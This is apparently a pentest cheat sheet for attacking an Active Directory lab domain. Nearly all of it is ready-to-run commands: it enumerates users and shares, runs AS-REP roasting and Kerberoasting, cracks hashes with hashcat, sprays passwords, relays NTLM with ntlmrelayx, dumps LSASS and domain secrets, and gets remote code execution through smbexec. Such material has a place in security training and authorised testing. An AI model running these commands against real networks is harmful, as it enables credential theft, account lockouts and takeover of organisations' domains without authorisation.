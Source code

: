 - Recon with cme  
  ```cme smb 192.168.56.1/24```

- Find DC ip  
  ```nslookup -type=srv _ldap._tcp.dc._msdcs.//DOMAIN```

- Setup Kerberos  
  ```sudo apt install krb5-user```

- Get a TGT for a user  
  ```getTGT.py DOMAIN/USER:PASS```

- Enumerate DC’s anonymously
  - cme  
  `cme smb 192.168.56.11 --users --pass-pol`  
  - enum4linux  
  `enum4linux 192.168.56.11`
  - rpc call  
  ```bash
        rpcclient -U "DOMAIN\\" 192.168.56.11 -N`  
            > enumdomusers
            > enumdomgroups

        net rpc group members 'Domain Users' -W 'DOMAIN' -I '192.168.56.11' -U '%'
  ```
  - nmap  
  `nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN',userdb=users.txt" 192.168.56.10`

- List guest access on shares
  `cme smb 192.168.56.10-23 -u 'a' -p '' --shares`

- ASREP - roasting
  - Get hash  
    `GetNPUsers.py north.sevenkingdoms.local/ -no-pass -usersfile users.txt`
  - Brute  
    `hashcat -m 18200 asrephash /usr/share/wordlists/rockyou.txt`

- Password Spray (user=pass)  
  be carreful you can lock accounts !
```
    cme smb 192.168.56.11 -u users.txt -p users.txt --no-bruteforce
    sprayhound -U users.txt -d DOMAIN -dc 192.168.56.11 --lower
```

- User listing
  - Impacket  
  `GetADUsers.py -all DOMAIN/USER:PASS `
  - LDAP  
  `ldapsearch -H ldap://192.168.56.11 -D "USER@DOMAIN" -w PASS -b 'DC=DOMAIN,DC=DOMAIN,DC=DOMAIN' "(&(objectCategory=person)(objectClass=user))" |grep 'distinguishedName:'`

- Kerberoasting
  - Find users with SPN  
    - with Impacket  
  `GetUserSPNs.py -request -dc-ip 192.168.56.11 DOOMAIN/USER:PASS -outputfile kerberoasting.hashes`
    - with cme  
    `cme ldap 192.168.56.11 -u USER -p 'PASS' -d DOMAIN --kerberoasting KERBEROASTING`
  - Brute  
  `hashcat -m 13100 --force -a 0 kerberoasting.hashes /usr/share/wordlists/rockyou.txt --force`

- Share enum  
`cme smb 192.168.56.10-23 -u USER -p PASS -d DOMAIN --shares`

- DNS dump  
`adidnsdump -u 'DOMAIN\USER' -p 'PASS' DOMAIN`

- Try responder + ntlmrelayx to smb    
`cme smb 192.168.56.10-23 --gen-relay-list relay.txt`    
`ntlmrelayx -tf smb_targets.txt -of netntlm -smb2support -socks`
  - dump secrets  
`proxychains secretsdump -no-pass 'DOMAIN'/'USER'@'192.168.56.22'`  
`proxychains lsassy --no-pass -d DOMAIN -u USER 192.168.56.22`
`proxychains DonPAPI -no-pass 'DOMAIN'/'USER'@'192.168.56.22'`
  - Smbclient  
`proxychains smbclient.py -no-pass 'DOMAIN'/'USER'@'192.168.56.22' -debug`
  - Code execution : smbexec or atexec  
`proxychains smbexec.py -no-pass 'DOMAIN'/'USER'@'192.168.56.22' -debug`
  - And other relays...